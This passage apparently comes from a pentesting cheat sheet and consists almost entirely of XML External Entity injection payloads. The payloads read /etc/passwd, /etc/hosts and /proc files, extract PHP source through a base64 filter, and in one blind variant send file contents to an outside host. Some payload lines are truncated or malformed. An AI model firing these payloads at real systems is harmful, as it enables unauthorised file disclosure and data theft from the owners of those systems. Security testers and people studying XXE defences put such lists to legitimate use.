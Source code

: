         - if works then:
            
            ```jsx
            <?xml version="1.0"?>
            <!DOCTYPE a[<!ENTITY test SYSTEM "file:///etc/passwd">]>
            <methodCall><methodName>&test;</methodName></methodCall>
            ```
            
            ```jsx
            <?xml version="1.0" encoding="ISO 8859 1"?>
            <!DOCTYPE tushar [
            <!ELEMENT tushar ANY
            <!ENTITY xxe SYSTEM "file:///etc/passwd" >]><tushar>&xxe;</
            <!ENTITY xxe SYSTEM "file:///etc/hosts" >]><tushar>&xxe;</
            <!ENTITY xxe SYSTEM "file:///proc/self/cmdline" >]><tushar>&xxe;</
            <!ENTITY xxe SYSTEM "file:///proc/version" >]><tushar>&xxe;</
            
            ```
            
        - Attacks
            
            ```jsx
            # Get PHP file:
            <?xml version="1.0"?>
            <!DOCTYPE a [<!ENTITY test SYSTEM "php://filter/convert.base64-encode/resource=index.php">]>
            <methodCall><methodName>&test;</methodName></methodCall>
            
            # Classic XXE Base64 encoded
            <!DOCTYPE test [ <!ENTITY % init SYSTEM "data://text/plain;base64,ZmlsZTovLy9ldGMvcGFzc3dk"> %init; ]><foo/>
            
            # Check if entities are enabled
            <!DOCTYPE replace [<!ENTITY test "pentest"> ]>
             <root>
              <xxe>&test;</xxe>
             </root>
            
            # XXE LFI:
            <!DOCTYPE foo [  
            <!ELEMENT foo (#ANY)>
            <!ENTITY xxe SYSTEM "file:///etc/passwd">]><foo>&xxe;</foo>
            
            # XXE Blind LFI:
            <!DOCTYPE foo [
            <!ELEMENT foo (#ANY)>
            <!ENTITY % xxe SYSTEM "file:///etc/passwd">
            <!ENTITY blind SYSTEM "https://www.example.com/?%xxe;">]><foo>&blind;</foo>
            